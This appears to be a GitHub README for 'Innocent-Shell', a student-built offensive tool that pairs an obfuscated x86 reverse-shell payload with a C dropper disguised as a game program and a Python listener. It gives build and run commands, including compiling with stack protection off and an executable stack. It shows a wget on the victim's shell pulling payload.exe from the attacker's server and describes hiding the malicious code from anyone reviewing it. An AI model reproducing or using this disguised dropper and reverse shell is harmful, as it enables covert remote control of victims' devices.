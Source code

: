 # *Innocent-Shell*
*Innocent Shell is basically a fully integrated Obfuscated Payload Generator with a Dropper to Create a Reverse Shell on targets Device developed by Team*
*PORT KNOCKERS :*
* *<a href = "https://github.com/huzaifi0604">Muhammad Huzaifa*<br></br>
* *<a href = "https://github.com/dingavinga1">Abdullah Irfan</a>*<br></br>
* *<a href = "https://github.com/aishairfan">Abdullah Irfan</a>*<br></br>
![Innocent Shell](ScreenCaptures/Screenshot_10.png)<br></br>
*The Project makes use of Python, C and x86 Assembly Languages WHERE*<br></br>
*➡️Reverse Shell Payload has been Developed using pure x86 assembly which is then parsed to develop the dropper for client/ target*<br></br>
*➡️Client side stager to Connect to the Server is developed using C Language.*<br></br>
*➡️And Lastly the Server for the Reverse Shell to Connect to and Execute Commands and Getting Reply has been done using Python3.*

## *How To Run The Project*
*To run the project 1st of all just clone this repository.*
* Clone Repository:
```
git clone https://github.com/huzaifi0604/Innocent-Shell
```
*After extracting the zip file you can use the following command to get the help menu for the Server.*
```
python innoshell.py -h
```
This command can be used to check the flags and respective arguments for running server and listening for the target. You can use
* *-lip --> Set Server's IP Address | -sip --> Set Client's IP Address*<br></br>
  * *In this case since we are using same machine you can use your local host 127.0.0.1.*
* *-lport --> Set Server's Port | -sport --> Set Client's Port*<br></br>
  * *Set Server's port lip to 9999 and clients port sip to 8080*<br></br>
* *-nc flag --> to open a saperate netcat listener using teh same server. Use 1 to set listener to open.*
## Run Innocent Shell Server
*Now open terminal and run the Innocent shell's server using the command below.*
```
python innocentshell.py -lip 127.0.0.1 -lport 9999 -sip 127.0.0.1 -sport 8080 -nc 1
```
*Server should start listening for connection after successfully running this command.*
![listner](ScreenCaptures/Screenshot_17.png)<br></br>
*Now traverse into the shell folder and use the following comand to build the dropper file.*
```
gcc -fno-stack-protector -z execstack dropper.c -o dropper
```
*Then use ``` ./dropper ``` to run the compiled C dropper for client.*<br></br>
*Now the server looking for the connection should have connected to the client and have output of something like this*
![output](ScreenCaptures/Screenshot_9.png)<br></br>
*Now you can use any command on Victim's Reverse Shell. I used wget command to downloaad a payload from my selfmade python http server using command*<br></br>
```
wget http://my localhost IP:8080/payload.exe
```
![payload wget](ScreenCaptures/Screenshot_3.png)<br></br>
*You can see that i have successfully downloaded my desired file into the victims system.*<br></br>
![ls](ScreenCaptures/Screenshot_4.png)<br></br>
## Assembly Payload
*Reverse Shell Payload to get executed on victim's device was written using x86 assembly language and then parsed into C*
![assembly](ScreenCaptures/Screenshot_7.png)<br></br>
## Payload Obfuscation
*As for the last but not the least part: Payload Obfuscation, the reverse shell payload was obfuscated using byte shifting and Defi Hellman Key Exchange
Mechanism to encrypt and decrypt the obfuscated payload with.*
![obfuscation](ScreenCaptures/Screenshot_8.png)<br></br>
*Similarly, The dropper on Clinet's Side has been developed in such a way that it depicts the program written for a game and scoring system
and user analyzing teh code cannot interpret anything malicious within the code easily.*
![game](ScreenCaptures/Screenshot_5.png)<br></br>
## Use At your Own Risk
*It is clearly being stated that all the files in the repository are allowed/ available for use but only for learning purposes. We won't be responsible for
 any type of malicious activity done using this repository's data.*
